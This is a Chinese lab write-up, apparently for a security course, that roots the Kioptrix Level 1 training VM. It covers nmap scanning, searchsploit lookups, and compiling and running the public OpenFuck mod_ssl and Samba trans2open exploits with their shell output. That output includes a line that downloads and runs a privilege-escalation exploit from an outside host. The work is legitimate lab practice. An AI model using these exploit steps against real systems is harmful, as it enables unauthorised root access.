



# 网络攻防实战 Lab02 Writeup

!!! quote "使用的靶机为 VulnHub Kioptix Level 1"

## 渗透目的

取得目标靶机的 root 权限

学习 `nmap` 等指令的用法，了解网络渗透的基本流程

## 具体操作

### 信息收集

启动 VirtualBox 中的 Kali 攻击机（用于进行渗透攻击）与 Kioptix 靶机，网络采用 NAT 连接

首先 `ifconfig` 获取攻击机的 ip 为 `10.0.2.3`，使用 `nmap` 扫描 ip：

```yacas
> nmap -sn 10.0.2.0/24
Starting Nmap 7.95 at 2025-10-12 05:57 CST
Nmap scan report for bogon (10.0.2.1)
Host is up (0.00076s latency).
MAC Address: 52:55:0A:00:02:01 (Unknown)
Nmap scan report for bogon (10.0.2.2)
Host is up (0.00038s latency).
MAC Address: 08:00:27:D8:A8:AA (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.7)
Host is up (0.0011s latency).
MAC Address: 08:00:27:F3:A8:F5 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for bogon (10.0.2.3)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 2.04 seconds
```

考虑靶机 ip 为 `10.0.2.7`，继续扫描端口 `nmap -sV -sC 10.0.2.7`，看看有哪些服务项

以下是关键的节选内容，每个服务都会有相应的注释说明

```yacas
// SSH 服务，支持 SSHv1
// OpenSSH 2.9p2 的发布日期为 2000 年 12 月，非常古老
// 可能存在漏洞
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
|_sshv1: Server supports SSHv1

// HTTP 服务，使用 Apache 1.3.20，其发布日期 2001 年 7 月，非常古老
// 启用了 TRACE 方法
// 优先攻击
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| http-methods: 
|_  Potentially risky methods: TRACE

// RPC 服务
// 不考虑作为攻击目标
PORT      STATE SERVICE     VERSION
111/tcp   open  rpcbind     2 (RPC #100000)

// Samba 服务，用于共享文件，版本未知
// 优先攻击
PORT      STATE SERVICE     VERSION
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)

// HTTPS 服务，大致内容同 HTTP
// 优先攻击
PORT      STATE SERVICE     VERSION
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b

// RPC 服务
// 不考虑作为攻击目标
PORT      STATE SERVICE     VERSION
32768/tcp open  status      1 (RPC #100024)
```

同时确定靶机操作系统为`RedHat Linux`

### Web 方向攻击

注意到以下服务：

```yacas
Apache/1.3.20
mod_ssl/2.8.4
OpenSSL/0.9.6b
```

尝试用 `searchsploit` 进行漏洞寻找：

```yacas
> searchsploit apache 1.3.20 
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin  | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote C | php/remote/29316.py
Apache 1.3.20 (Win32) - 'PHP.exe' Remote F | windows/remote/21204.txt
Apache 1.3.6/1.3.9/1.3.11/1.3.12/1.3.20 -  | windows/remote/19975.pl
Apache 1.3.x < 2.0.48 mod_userdir - Remote | linux/remote/132.c
Apache < 1.3.37/2.0.59/2.2.3 mod_rewrite - | multiple/remote/2237.sh
Apache < 2.0.64 / < 2.2.21 mod_setenvif -  | linux/dos/41769.txt
Apache < 2.2.34 / < 2.4.27 - OPTIONS Memor | linux/webapps/42745.py
Apache CouchDB < 2.1.0 - Remote Code Execu | linux/webapps/44913.py
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial o | multiple/dos/26710.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck | unix/remote/764.c
Apache Struts < 1.3.10 / < 2.3.16.2 - Clas | multiple/remote/41690.rb
Apache Struts < 2.2.0 - Remote Command Exe | multiple/remote/17691.rb
Apache Tika-server < 1.18 - Command Inject | windows/remote/46540.py
Apache Tomcat < 5.5.17 - Remote Directory  | multiple/remote/2061.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory  | multiple/remote/6229.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory  | unix/remote/14489.c
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 /  | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 /  | windows/webapps/42953.txt
Apache Xerces-C XML Parser < 3.1.2 - Denia | linux/dos/36906.txt
Oracle Java JDK/JRE < 1.8.0.131 / Apache X | php/dos/44057.md
Webfroot Shoutbox < 2.32 (Apache) - Local  | linux/remote/34.pl
------------------------------------------- ---------------------------------
Shellcodes: No Results
```

发现下面的关键内容：

```yacas
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck | unix/remote/764.c
```

这和目前的服务（包括版本号限制）完全符合，使用 `searchsploit -m 47080` 获取对应的脚本

```yacas
> searchsploit -m 47080
  Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
      URL: https://www.exploit-db.com/exploits/47080
     Path: /usr/share/exploitdb/exploits/unix/remote/47080.c
    Codes: CVE-2002-0082, OSVDB-857
 Verified: False
File Type: C source, ASCII text
Copied to: /home/kali/47080.c

// 47080.c 中说明了编译方式与依赖要求（需要 libssl-dev）
> gcc -o getshell 47080.c -lcrypto
// warning 输出省略
```

接下来尝试运行：

```yacas
> ./getshell
*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

: Usage: ./getshell target box [port] [-c N]

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know)
  

  Supported OffSet:
		// 省略内容
		0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
		0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
		// 省略内容

// 寻找对应的参数填写，发现 0x6a 和 0x6b 都可以
> ./getshell 0x6a 10.0.2.7 -c 40	// 这个失败了

> ./getshell 0x6b 10.0.2.7 -c 40
*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8070
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--23:37:14--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!

Unable to establish SSL connection.

Unable to establish SSL connection.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./exploit: No such file or directory
bash-2.05$ whoami
whoami
apache
```

Getshell 成功，下一步是提权为 root，我们观察上一步的输出：

```yacas
bash-2.05$ 
d.c; ./exploit; -kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmo 
--23:37:14--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!

Unable to establish SSL connection.

Unable to establish SSL connection.
gcc: ptrace-kmod.c: No such file or directory
gcc: No input files
rm: cannot remove `ptrace-kmod.c': No such file or directory
bash: ./exploit: No such file or directory
```

发现脚本尝试执行 `https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c` 对应的一个脚本（或许是尝试进一步的提权操作，而在 Github 上的搜索也证明了这一点）

于是 HTTP 上传一份到靶机，在靶机上执行指令，成功获取 root 权限：

（左侧为攻击机 HTTP 上传脚本文件，右侧为靶机接收并编译运行文件）



---

### Samba 方向攻击

虽然 Samba 服务在 nmap 扫描时并没有给出版本号，但是根据靶机上 Apache 与 OpenSSH 的版本对应的发布时间（2001~2002），考虑 Samba 服务也为同时期的版本。搜索发现此时的 Samba 的版本发布为 2.2.x 系列，并且在 2003 年之前发布的最晚版本为 2.2.8，据此尝试搜索漏洞：`searchsploit Samba 2.2`

```yacas
> searchsploit Samba 2.2
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Samba 2.0.x/2.2 - Arbitrary File Creation                            | unix/remote/20968.txt
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)         | osx/remote/9924.rb
Samba 2.2.2 < 2.2.6 - 'nttrans' Remote Buffer Overflow (Metasploit)  | linux/remote/16321.rb
Samba 2.2.8 (BSD x86) - 'trans2open' Remote Overflow (Metasploit)    | bsd_x86/remote/16880.rb
Samba 2.2.8 (Linux Kernel 2.6 / Debian / Mandrake) - Share Privilege | linux/local/23674.txt
Samba 2.2.8 (Linux x86) - 'trans2open' Remote Overflow (Metasploit)  | linux_x86/remote/16861.rb
Samba 2.2.8 (OSX/PPC) - 'trans2open' Remote Overflow (Metasploit)    | osx_ppc/remote/16876.rb
Samba 2.2.8 (Solaris SPARC) - 'trans2open' Remote Overflow (Metasplo | solaris_sparc/remote/16330.rb
Samba 2.2.8 - Brute Force Method Remote Command Execution            | linux/remote/55.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (1)           | unix/remote/22468.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (2)           | unix/remote/22469.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (3)           | unix/remote/22470.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (4)           | unix/remote/22471.txt
Samba 2.2.x - 'nttrans' Remote Overflow (Metasploit)                 | linux/remote/9936.rb
Samba 2.2.x - CIFS/9000 Server A.01.x Packet Assembling Buffer Overf | unix/remote/22356.c
Samba 2.2.x - Remote Buffer Overflow                                 | linux/remote/7.pl
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                    | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap Overflow                                | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                        | linux_x86/dos/36741.py
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

这里使用 `10.c` 进行 getshell，发现已经直接获取了 root 权限：

```yacas
> gcc -std=gnu89 10.c -o samba			// 直接使用 gcc 10.c -o samba 会出现报错（更新的编译器会有更严格的语法检查）
										// 这里使用 gnu89 旧标准
> ./samba
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
Usage: ./samba [-bBcCdfprsStv] [host]

-b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
-B <step>       bruteforce steps (default = 300)
-c <ip address> connectback ip address
-C <max childs> max childs for scan/bruteforce mode (default = 40)
-d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
-f              force
-p <port>       port to attack (default = 139)
-r <ret>        return address
-s              scan mode (random)
-S <network>    scan mode
-t <type>       presets (0 for a list)
-v              verbose mode

> ./samba -v -b 0 10.0.2.7
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Verbose mode.
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Using ret: [0xbffffed4]
+ Using ret: [0xbffffda8]
+ Using ret: [0xbffffc7c]
+ Using ret: [0xbffffb50]
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
whoami
root
```



---

## 渗透结果

成功获取了 root 权限并且修改了 root 密码：

```yacas
whoami
root
passwd root
New password: n0pth0n
Retype new password: n0pth0n
Changing password for user root
passwd: all authentication tokens updated successfully
```

登录靶机界面，输入新密码进入 root 账号：



---

## 问题分析

- 通过 Web 侧渗透，使用 `47080.c` 进行 Getshell 时发现无法获得 root 权限，而是 Apache 低权限账号

​	解决：通过脚本中的提示，利用本地 HTTP 服务与靶机的低权限账号传输提权脚本，成功执行

- Samba 的版本号无法直接获取

​	解决：通过 Web 服务的版本推断靶机服务所在的时期，倒推 Samba 的版本号范围

​	（其实也有具体的获取方法）

- 通过 Samba 侧渗透，无法编译 `10.c` 

​	解决：`10.c` 是非常老的脚本，需要使用更老的（比如 gnu89）标准进行编译（更新的编译器会进行更严格的语法审查，出现 error 报错）

---

## 其他

​	查询资料用时 ~1h，Web 侧 和 Samba 侧方案实际操作各用时 ~0.5h
